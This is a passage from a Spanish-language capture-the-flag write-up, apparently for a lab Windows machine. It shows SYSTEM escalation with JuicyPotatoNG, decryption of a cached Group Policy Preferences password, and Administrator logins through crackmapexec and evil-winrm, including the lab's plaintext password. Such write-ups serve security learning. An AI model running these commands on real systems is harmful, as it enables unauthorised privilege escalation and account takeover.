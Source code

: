 Ejecutamos el prgorama para obtener una consola con privilegios de administrador.

````bash
JuicyPotatoNG.exe -t * -p "C:\Windows\System32\cmd.exe" -i
`````

````bash
Microsoft Windows [Version 10.0.17763.292]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>whoami
whoami
nt authority\system
`````

De esta forma somos administradores.

Way-2 Credenciales almacenadas en el sistema.

Si enumeramos el sistema con ``PowerUp.ps1`` obtenemos una ruta con unas credenciales almacenadas en un archivo ``xml``

> GPP Passwords (preferencias de directivas de grupo)
Cada vez que se crea una nueva preferencia de grupo, se crea un archivo xml en el recurso compartido SYSVOL con esos datos de configuracion, incluidas las contraseñas asociadas co el GPP. Por seguridad, Microsoft AES encripta la contraseña antes de almacenarla como cpassword, ¡pero luego Microsoft publico la clave en MSDN!. 
Se pueden decifrar con la tool ``gpp-decrypt ``

>El archivo xml contiene la clave encriptada ``cpassword="CiDUq6tbrBL1m/js9DmZNIydXpsE69WB9JrhwYRW9xywOz1/0W5VCUz8tBPXUkk9y80n4vw74KeUWc2+BeOVDQ``

````bash
Changed   : {2019-01-28 23:12:48}
UserNames : {Administrator}
NewName   : [BLANK]
Passwords : {MyUnclesAreMarioAndLuigi!!1!}
File      : C:\ProgramData\Microsoft\Group 
            Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
Check     : Cached GPP Files
`````

Tenemos el usuario ``Administrator`` y la contraseña ``MyUnclesAreMarioAndLuigi!!1!``, comprobamos con crackmapexec .

````bash
❯ cme smb 10.10.10.125 -u 'Administrator' -p 'MyUnclesAreMarioAndLuigi!!1!' -d WORKGROUP
SMB         10.10.10.125    445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:WORKGROUP) (signing:False) (SMBv1:False)
SMB         10.10.10.125    445    QUERIER          [+] WORKGROUP\Administrator:MyUnclesAreMarioAndLuigi!!1! (Pwn3d!)
`````

En el reporte de nmap tenemos el puerto ``5985`` abierto , con ``evil-winrm`` tenemos acceso a la maquina victima.

````bash
❯ evil-winrm -i 10.10.10.125 -u 'Administrator' -p 'MyUnclesAreMarioAndLuigi!!1!'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
````